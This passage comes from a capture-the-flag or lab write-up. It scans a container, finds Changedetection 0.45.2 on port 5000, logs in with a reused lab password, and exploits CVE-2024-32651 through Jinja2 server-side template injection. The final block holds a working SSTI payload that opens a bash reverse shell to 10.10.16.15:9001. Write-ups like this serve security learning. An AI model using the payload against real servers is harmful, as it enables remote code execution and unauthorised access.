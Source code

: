 ```bash
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.2
Host is up (0.00051s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
5000/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 35.80 seconds
```

Alr, we can port forward `172.17.0.2:5000`

<figure><img src="../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

The webpage is using, `Changedetection 0.45.2` after a google search, we find this exploit.

{% embed url="https://www.exploit-db.com/exploits/52027" %}

Th exploit didn't work, let's try manually.

#### Login form password is the same we used for james (alwaysandforever)

{% embed url="https://blog.hacktivesecurity.com/index.php/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io/" %}

Since it's using jinja, we can jump to,&#x20;

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti" %}

Payload used:

```python
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'sh -i >& /dev/tcp/10.10.16.15/9001 0>&1'").read()}}{%endif%}{% endfor %}
{% endraw %}
```
